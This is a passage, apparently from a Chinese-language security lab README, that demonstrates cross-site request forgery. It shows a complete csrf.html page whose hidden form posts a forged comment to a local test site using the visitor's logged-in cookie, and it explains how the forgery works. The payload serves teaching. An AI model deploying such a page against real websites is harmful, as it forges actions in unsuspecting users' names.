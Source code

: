 我们的 CSRF 攻击页面 `csrf.html` 构造如下

```html
<!DOCTYPE html>
{% autoescape false %}
<html>
  <head>
    <meta charset="utf-8">
    <title>CSRF Demo</title>
    <script>
      // add time into comment on page load
      window.onload = function() {
        var comment = document.getElementsByName("comment")[0];
        var now = new Date();
        comment.value += " (" + now.toLocaleString() + ")";
      }

    </script>
  </head>

  <body>
    <form action="http://main.test:16589" method="POST">
      <input type="hidden" name="comment" value="[CSRF] illegal comment" />
      <input type="submit" value="Refresh" />
    </form>
  </body>
</html>
{% endautoescape %}
```

该页面在用户点击 `Refresh` 按钮时，会利用已登录用户的 Cookie 向网站发出一个 POST 请求，从而完成一个伪造的署名评论。

![image-20230625003656379](README.assets/image-20230625003656379.png)
